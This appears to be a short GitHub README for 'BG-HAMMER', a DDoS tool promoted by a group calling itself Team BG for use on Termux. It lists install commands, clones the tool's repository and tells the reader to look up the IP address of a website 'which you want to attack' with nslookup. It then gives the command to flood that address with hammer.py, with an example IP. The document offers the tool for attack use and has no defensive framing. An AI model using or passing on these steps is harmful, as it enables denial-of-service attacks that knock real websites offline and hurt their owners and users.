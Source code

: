 BG- HAMMER - DDOS V1.0 EXTREME ( Termux Recommended)

check out Team BG :- https://t.me/teambg99

project by @devilvinay_yt 

$ apt update

$ apt upgrade

$ apt install python

$ apt install git

$ apt install dnsutils

$ git clone https://github.com/smartboyvinay/bgddos/

Hammer need the Name Server of a website which you want to attack...


To get the Name Server...just type


$ nslookup example.com

Note the IP Address of that Website

then

$ cd Hammer

$ python hammer.py -s [ip Address] -t 135

example:

$ python hammer.py -s 123.45.67.89 -t 135

❤We are TEAM BG.
